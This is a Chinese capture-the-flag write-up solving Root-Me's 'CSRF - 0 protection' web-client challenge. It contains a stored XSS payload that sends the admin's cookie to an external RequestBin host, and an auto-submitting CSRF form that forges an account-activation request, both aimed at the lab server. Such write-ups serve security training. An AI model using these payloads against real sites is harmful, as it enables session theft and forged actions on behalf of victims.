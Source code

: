 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2927/)]

------

已经很直白提示是 CSRF 题型。

点击 Register 随意注册一个账号，如 `exp`，密码 `123456` 。

然后点击 Login 登录，登录后点击 Profile 切到个人档案，发现有 4 个选项卡，其中：

- Contact ： 可以发送一条消息给 admin 留言， 有个 robot-admin 会定时轮询查看
- Profile ： 激活当前账号，但是非 admin 无法操作
- Private ： 查看账号激活后信息，这就是最终目标
- Logout ： 登出，没用

很明显 Contact 就是注入点，且通过抓取 HTTP 请求发现， Email 虽然会校验格式，但是可以不填，而且也不会作为 HTTP 请求的参数发送出去，因此注入点就是 Comment 输入框。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/01.png)

至此，解此题有两种思路：

- ① 使用【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】的思路把 admin 的 Cookie 发到我们的服务器，窃取其 Cookie 后再激活
- ② 直接构造 CSRF 伪装 admin 的身份进行激活

首先试试第 ① 种思路，在 Contact 选项卡的 Comment 输入框构造一个 payloads 提交：

`<srcipt>document.write("<img src='${HOST}?tk='"+document.cookie+" />");</srcipt>`

（其中 `${HOST}` 是使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器，详见【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】，不再赘述）

提交成功后会提示 `Your message has been posted. The administrator will contact you later.` 。

等了一会， [RequestBin](https://requestbin.fullcontact.com/) 服务器收到了消息，说明我们注入 XSS 成功，但是消息中并没有 admin 的 Cookie ，很可能是 Cookie 启用了 HttpOnly 的缘故，因此第 ① 种思路不可行，改用第 ② 种思路，即 CSRF。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/02.png)

要执行 CSRF ，即需要令 admin 在读取 Comment 的时候触发一个激活账号的 POST，因此需要先获得这个 POST 请求的格式，再构造我们期望的内容。

切到 Profile 选项卡，发现 Status 是不可用的，并且点击 submit 后提示 `You're not an admin!`，不过不影响我们捕获 POST 请求。

打开浏览器开发者工具，切到 Elements ，把 Status 的 `disabled` 属性删掉。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/03.png)

打开 Burp Suite -> Proxy -> HTTP history ，然后点击页面的 submit 按钮，即可捕获到激活账号的 POST 请求。

利用这个 POST 请求可以构造 payloads 如下，将其拷贝到 Contact 选项卡的 Comment 输入框提交即可：

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp">  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on">  <!-- 激活动作 -->
</form>
<script>document.csrf.submit()</script>
```

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
